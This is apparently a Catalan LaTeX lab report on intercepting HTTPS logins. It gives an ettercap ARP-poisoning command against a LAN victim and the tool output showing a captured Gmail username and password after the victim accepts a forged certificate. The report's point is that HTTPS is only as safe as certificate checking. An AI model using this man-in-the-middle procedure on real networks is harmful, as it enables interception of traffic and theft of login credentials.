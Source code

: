 \documentclass[a4paper,11pt]{scrartcl}
\begin{document}
En el nostre cas la víctima és \texttt{192.168.1.63}, nosaltres som l'atacant
amb la adreça \texttt{192.168.1.40}.

Ara toca fer l'enverinament ARP perquè la víctima ens envii a nosaltres els paquets
en lloc del \emph{router} i així poder-los veure i contestar. Aquesta tècnica també
és coneguda com \emph{man in the middle}.

\begin{verbatim}
ettercap -Tq -i eth0 -M arp:remote,oneway /192.168.1.63/ //
\end{verbatim}

Ara senzillament toca esperar que la víctima intenti loguejar i accepti el nostre
certificat fals. En aquest instant la connexió estarà xifrada amb el nostre certificat
i per tant podem desxifrar el missatge enviat. Tot això ho fa el \texttt{ettercap} per nosaltres.

\begin{verbatim}
ettercap NG-0.7.3 copyright 2001-2004 ALoR & NaGA

Listening on eth0... (Ethernet)

  eth0 ->       00:0A:E4:33:D4:58     192.168.1.40     255.255.255.0

Privileges dropped to UID 0 GID 0...

  28 plugins
  39 protocol dissectors
  53 ports monitored
7587 mac vendor fingerprint
1698 tcp OS fingerprint
2183 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

1 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.1.63 00:23:18:B1:D2:92

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

HTTP : 209.85.227.104:443 -> USER: practicaopenssl  PASS: \emph{h4x0r_pass}  
INFO: https://www.google.com/accounts/ServiceLogin?service=mail&passive=true&rm=
false&continue=https://mail.google.com/mail/?ui=html&zy=l&bsv=llya694le36z&
\end{verbatim}

Com podem veure la víctima ha intentat loguejar al seu correu de Gmail. L'usuari és \emph{practicaopenssl}
i la contrasenya \emph{h4x0r\_pass}. Això significa que ha rebut l'advertiment de que el certificat no
era l'autèntic de la pàgina i segurament per resignació, desconeixement i ganes d'entrar al seu
correu ha ignorat l'advertiment acceptant el nou certificat fraudulent.
Aquest procediment funciona per totes les webs amb SSL que s'han provat, entre elles el Facebook, Lastfm...

En resum, emprar \emph{https} no és garantia de res sinó es sap amb seguretat que el certificat emprat
es el correcte.




\end{document}
